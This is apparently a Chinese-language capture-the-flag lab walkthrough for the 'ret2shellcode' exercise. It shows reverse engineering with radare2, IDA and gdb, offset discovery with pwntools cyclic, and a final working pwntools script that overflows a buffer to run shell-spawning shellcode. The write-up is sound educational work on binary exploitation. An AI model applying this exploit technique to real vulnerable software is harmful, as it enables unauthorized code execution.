# ret2shellcode
## 執行結果

會自動印出 " No system for you this time !!!"

接著輸入任意字串

就會印出 "bye bye ~"

結束執行

![image](https://user-images.githubusercontent.com/22366572/148738726-f6408add-6f6b-42b3-9624-7afbfea8d595.png)

## 分析步驟
### Step 1 : 獲得檔案的基本資料

指令: ```file [執行檔名]```

![image](https://user-images.githubusercontent.com/22366572/148719601-e694ff03-15c6-41e8-91e0-63f9528e3fc8.png)

可以看到它是在 GNU/Linux 2.6.24 上編譯的，dynamically linked (動態連接的)，ELF 32-bit LSB executable

### Step 2 : 看開啟了哪些保護機制

指令: ```checksec [執行檔名]```

![image](https://user-images.githubusercontent.com/22366572/148719750-61ca71ad-4ce4-4565-ac46-e310794b4f09.png)

可以看到這個執行檔沒有開啟保護機制

### Step 3 : 做逆向工程

1. 使用 radare2 做逆向工程

main逆向指令:
```
r2 ret2shellcode
aa
afl
s main
VV
```
![image](https://user-images.githubusercontent.com/22366572/148738318-e9c4df11-94c9-4fab-a1fe-bc1cd3628721.png)

main 組語:

![image](https://user-images.githubusercontent.com/22366572/148738426-65ea99e6-0861-4f5b-902c-2fadfeef4aec.png)
![image](https://user-images.githubusercontent.com/22366572/148738519-df170b94-4552-46f6-9b29-a91c08774fe8.png)

從上面可以觀察到輸入的字串會儲存在 **buf2** 裡，或許可以在 buf2 裡塞 shellcode 來執行我們想要的指令 

2. 使用 IDA 做逆向工程

將檔案匯入IDA，即可看到組語

![image](https://user-images.githubusercontent.com/22366572/148740280-53add0f9-f2b3-4294-898b-f327affc5f13.png)


### Step 4 : 確認 buf2 是否有可執行能力

指令:
```
gdb ./ret2shellcode
b main                # 給一個breakpoint
r                     # 執行
```

![image](https://user-images.githubusercontent.com/22366572/148740688-47bd3855-3e0f-434c-acf1-a3a8ac6f7b58.png)

![image](https://user-images.githubusercontent.com/22366572/148741213-6a36cef4-3ccf-4132-8934-0d2d05630b25.png)
![image](https://user-images.githubusercontent.com/22366572/148741276-eb742942-e9d4-4bb6-bba5-bab5ba444445.png)

**接著我們要來找 buf2 的位置**

指令:
```
vmmap
```

![image](https://user-images.githubusercontent.com/22366572/148741876-414772bb-c0dc-4824-b5de-e6b9479acb01.png)

因為從上面用 radare2 或是 IDA 分析可以看到，buf2 的位置在 0804a080，所以從上面那張圖可以知道 buf2 的位置在 /home/woowater/Lab3/PWN20210824/ROP/ret2， **且狀態是可讀可寫的**

[Perm] :
  
  ![image](https://user-images.githubusercontent.com/22366572/148756873-dee75647-ace7-4856-84d6-940b6c9a7054.png)

### Step 5 : 找到 return address 的位置
先用 python 產生 120 個隨機的字元 :
```
from pwn import *
cyclic(120)
```
![image](https://user-images.githubusercontent.com/22366572/148826938-5eaf0afc-0787-4573-8c21-7dd49db2dab8.png)

```
# 120字元
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab
```

開啟 gdb ，啟動 ret2shellcode ，將剛剛產生的 120 個隨機的字元填進去，看看會發生甚麼事:

![image](https://user-images.githubusercontent.com/22366572/148828010-4283f211-f9a5-42f7-b748-2154eddeee8d.png)
![image](https://user-images.githubusercontent.com/22366572/148828102-624465bd-2689-44cc-8b28-fbcc2fb4f5cd.png)

由上圖可看到發生了 Segmentation fault，這是因為在EIP指到的地方發生了 Invalid $PC address。當時跑到 return address 的 EIP 會填進 "daab"，我們希望能將 "daab" 那裡填進我們 shellcode 的位置，這樣當 EIP 跑到 return address 時，就會跳到 shellcode 並執行裡面的程式。對照產生的 120 字元可以知道，在跑到 return address 之前需要填進 **112 個字元**
```
# 開啟python找到指定字元的方法
from pwn import *
cyclic(120)
cyclic_find(b'daab') # find 'daab' location
```

### Step 6 : 撰寫 shellcode，丟進執行程式裡

**Shellcode :**

(檔名: exp-ret2shellcode.py)

```
from pwn import *
sh = process("./ret2shellcode")
payload = asm(shellcraft.sh())
payload = payload.ljust(112,"a")
buf2_addr = 0x804a080
sh.sendline(payload + p32(buf2_addr))
sh.interactive()
```


